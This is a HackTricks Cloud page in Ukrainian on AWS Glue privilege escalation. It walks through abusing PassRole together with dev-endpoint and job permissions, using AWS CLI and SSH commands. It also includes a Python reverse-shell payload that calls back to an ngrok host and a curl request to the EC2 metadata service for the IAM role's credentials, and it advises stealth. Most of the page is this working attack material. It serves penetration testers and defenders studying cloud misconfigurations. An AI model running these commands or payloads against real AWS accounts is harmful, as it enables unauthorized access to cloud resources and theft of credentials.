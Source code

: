 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цими дозволами можуть **налаштувати нову точку розробки AWS Glue**, **призначаючи існуючу роль служби, яку може прийняти Glue**, з конкретними дозволами для цієї точки.

Після налаштування **зловмисник може підключитися до екземпляра точки через SSH** і вкрасти облікові дані IAM призначеної ролі:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Для цілей прихованості рекомендується використовувати облікові дані IAM зсередини віртуальної машини Glue.

**Потенційний вплив:** Привілейоване підвищення до ролі служби glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цим дозволом можуть **змінити існуючий ключ SSH** для точки розробки Glue, **дозволяючи доступ по SSH до неї**. Це дозволяє зловмиснику виконувати команди з привілеями прикріпленої ролі точки розробки:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Потенційний вплив:** Привілейоване підвищення до ролі служби glue.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Користувачі з **`iam:PassRole`** в поєднанні з **`glue:CreateJob` або `glue:UpdateJob`**, і з **`glue:StartJobRun` або `glue:CreateTrigger`** можуть **створити або оновити завдання AWS Glue**, прикріпивши будь-який **обліковий запис служби Glue**, і ініціювати виконання завдання. Можливості завдання включають виконання довільного Python-коду, що може бути використано для встановлення зворотного шелу. Цей зворотний шел може бути використаний для ексфільтрації **облікових даних IAM** ролі, прикріпленої до завдання Glue, що може призвести до потенційного несанкціонованого доступу або дій на основі дозволів цієї ролі:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Потенційний вплив:** Privesc до ролі служби glue, що вказана.

### `glue:UpdateJob`

Лише з дозволом на оновлення атакуючий може вкрасти IAM облікові дані вже прикріпленої ролі.

**Потенційний вплив:** Privesc до прикріпленої ролі служби glue.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
